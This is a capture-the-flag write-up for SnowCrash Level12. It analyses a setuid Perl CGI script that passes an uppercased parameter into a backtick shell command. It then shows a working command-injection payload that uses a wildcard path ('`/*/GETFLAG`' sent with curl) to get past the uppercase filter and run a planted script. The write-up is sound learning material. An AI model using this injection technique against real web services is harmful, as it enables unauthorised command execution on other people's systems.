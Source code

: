 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```
Study `level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

# A Perl subroutine or function is a group of statements that together performs a task. 
sub t {
  # y 
  $nn = $_[1];
  # x 
  $xx = $_[0];
# The operator =~ associates the string with the regex match and produces a 
# true value if the regex matched, or false if the regex did not match
# The tr operator in Perl translates all characters of 
# SearchList into the corresponding characters of ReplacementList.
# Syntax: tr/SearchList/ReplacementList/
# Do uppercase on x !
  $xx =~ tr/a-z/A-Z/;
# Substitution Operator or ‘s’ operator in Perl is used to substitute 
# a text of the string with some pattern specified by the user.
# Syntax: s/text/pattern
# \s Do a global search for whitespace characters in a string
# .* just means "0 or more of any character"
# remove all whitespaces !
  $xx =~ s/\s.*//;
# Variables of Array Datatype are preceded by an “at” (@) sign.
# egrep command searches for a text pattern, using extended regular expressions 
# standard error (stderr), to where programs can send their error messages.
# Standard output (stdout) can be screen or file depending on redirection
# 2>&1 redirect stderr to whatever value is set to stdout
# output (array) saves what is return on the stdout by the egrep command
# The threat must be here as all others line seems safe
# `` is for running command !
# grep " " run command inside !
# however getflag will become GETFLAG and won't work...
# ^ to find character missing in the string
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
# $_ = default variable in case no parameter is explicitly used
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

What we can understand:
- `level12.pl` uses `CGI` on `localhost:4646`
- It seems to take 2 arguments
- Argument x will be put in uppercase and will be executed thanks to the \`\` quotes 
- Argument y seems to serve no purpose for us

We saw in a previous level that we can pass parameters to CGI. So let's try to pass `getflag`.

Problem: if we pass just `getflag`, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. </br>
Maybe we can run a script instead of a command and using wildcards will prevent the regex to turn `/tmp/` into `/TMP/` wich doesn't exist.

```bash
level12@SnowCrash:~$ echo 'getflag' > /tmp/GETFLAG
level12@SnowCrash:~$ touch /tmp/CC
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
..level12@SnowCrash:~$ cat /tmp/CC
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
This does not work, it launch getflag without the appropriate rights.

1h30 later with lot of different useless tries...
It was not the good quotes, and why not do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

## Solution

```
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ touch /tmp/flag
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
